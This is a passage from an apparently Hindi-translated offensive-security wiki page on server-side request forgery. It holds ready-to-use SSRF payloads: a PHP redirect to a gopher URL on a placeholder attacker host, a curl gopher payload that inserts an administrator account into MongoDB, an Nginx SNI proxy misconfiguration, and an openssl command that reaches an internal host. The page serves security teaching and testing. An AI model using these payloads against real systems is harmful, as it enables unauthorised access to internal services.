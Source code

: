 {% code title="redirect.php" %}
```php
<?php
header("Location: gopher://hack3r.site:1337/_SSRF%0ATest!");
?>Now query it.
https://example.com/?q=http://evil.com/redirect.php.
```
{% endcode %}

#### Gopher MongoDB -- उपयोगकर्ता बनाएं जिसका उपयोगकर्ता नाम=admin, पासवर्ड=admin123 और अनुमति=administrator हो
```bash
# Check: https://brycec.me/posts/dicectf_2023_challenges#unfinished
curl 'gopher://0.0.0.0:27017/_%a0%00%00%00%00%00%00%00%00%00%00%00%dd%0
7%00%00%00%00%00%00%00%8b%00%00%00%02insert%00%06%00%00%00users%00%02$db%00%0a
%00%00%00percetron%00%04documents%00V%00%00%00%030%00N%00%00%00%02username%00%
06%00%00%00admin%00%02password%00%09%00%00%00admin123%00%02permission%00%0e%00
%00%00administrator%00%00%00%00'
```
## SSRF via Referrer header & Others

सर्वरों पर एनालिटिक्स सॉफ़्टवेयर अक्सर आने वाले लिंक को ट्रैक करने के लिए Referrer हेडर को लॉग करता है, एक प्रथा जो अनजाने में अनुप्रयोगों को Server-Side Request Forgery (SSRF) कमजोरियों के लिए उजागर करती है। इसका कारण यह है कि ऐसा सॉफ़्टवेयर Referrer हेडर में उल्लिखित बाहरी URL पर जाने के लिए जा सकता है ताकि संदर्भ साइट की सामग्री का विश्लेषण किया जा सके। इन कमजोरियों को उजागर करने के लिए, Burp Suite प्लगइन "**Collaborator Everywhere**" की सिफारिश की जाती है, जो एनालिटिक्स उपकरणों द्वारा Referer हेडर को संसाधित करने के तरीके का लाभ उठाता है ताकि संभावित SSRF हमले की सतहों की पहचान की जा सके।

## SSRF via SNI data from certificate

एक गलत कॉन्फ़िगरेशन जो किसी भी बैकएंड के साथ कनेक्शन को सक्षम कर सकता है, एक सरल सेटअप के माध्यम से एक उदाहरण Nginx कॉन्फ़िगरेशन के साथ दर्शाया गया है:
```
stream {
server {
listen 443;
resolver 127.0.0.11;
proxy_pass $ssl_preread_server_name:443;
ssl_preread on;
}
}
```
इस कॉन्फ़िगरेशन में, सर्वर नाम संकेत (SNI) फ़ील्ड से मान को सीधे बैकएंड के पते के रूप में उपयोग किया जाता है। यह सेटअप सर्वर-साइड अनुरोध धोखाधड़ी (SSRF) के लिए एक भेद्यता को उजागर करता है, जिसे केवल SNI फ़ील्ड में इच्छित IP पते या डोमेन नाम को निर्दिष्ट करके शोषित किया जा सकता है। एक शोषण उदाहरण जो `openssl` कमांड का उपयोग करके किसी मनमाने बैकएंड, जैसे `internal.host.com`, से कनेक्शन को मजबूर करता है, नीचे दिया गया है:
```bash
openssl s_client -connect target.com:443 -servername "internal.host.com" -crlf
```
## [Wget फ़ाइल अपलोड](../file-upload/#wget-file-upload-ssrf-trick)
